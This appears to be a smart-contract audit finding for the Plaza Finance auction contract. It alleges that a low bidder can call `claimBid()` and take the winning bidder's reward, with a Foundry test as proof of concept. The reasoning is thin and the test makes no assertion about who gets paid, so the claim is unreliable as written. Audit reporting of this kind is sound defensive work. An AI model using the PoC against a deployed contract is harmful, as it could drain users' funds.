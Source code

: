Wide Cedar Orca

Medium

# Attacker who is not the winner can `claimBid()` of the winner.

### Summary

`insertSortedBid` function depends on both `sellCouponAmount` and `buyReserveAmount` to determine bid placement in the auction. There is no check on the sellCouponAmount and buyReserveAmount to determine the highest bid. This can lead to uncertainty in the highest bid. 

### Root Cause

The root cause is the [insertSortedBid](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L177-L245) where the highest bid is sorted there

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1. Attacker can submit 10 ETH to place a bid
2. A user place the highest bid of 55 ETH
3. User calls the `claimBid()` first


### Impact

No matter who placed the highest bid, anyone with a low bid can call `claimBid` and get the bid reward that is meant for the highest bidder(winner)

### PoC

```solidity
function testBidSuccessMultiBidsWithWei() public {
    address legetimateUser = address(0x123131);

    usdc.mint(bidder, 100 ether);
    usdc.mint(legetimateUser, 1000 ether);

    weth.mint(address(auction), 1000000000000 ether);

    uint256 slot = auction.slotSize();

    vm.startPrank(bidder);
    usdc.approve(address(auction), 40 ether);

    auction.bid(1, slot);

    auction.bid(50 ether, slot);

    auction.bid(1, slot);

    auction.bid(1, slot);

    // auction.bid(10, slot);
    vm.stopPrank();

    vm.startPrank(legetimateUser);
    usdc.approve(address(auction), 100 ether);
    // vm.expectRevert();
    auction.bid(55 ether, slot);
    vm.stopPrank();

    vm.warp(block.timestamp + 15 days);
    vm.prank(pool);
    auction.endAuction();

    vm.prank(bidder);
    auction.claimBid(1);
  }
```

### Mitigation

_No response_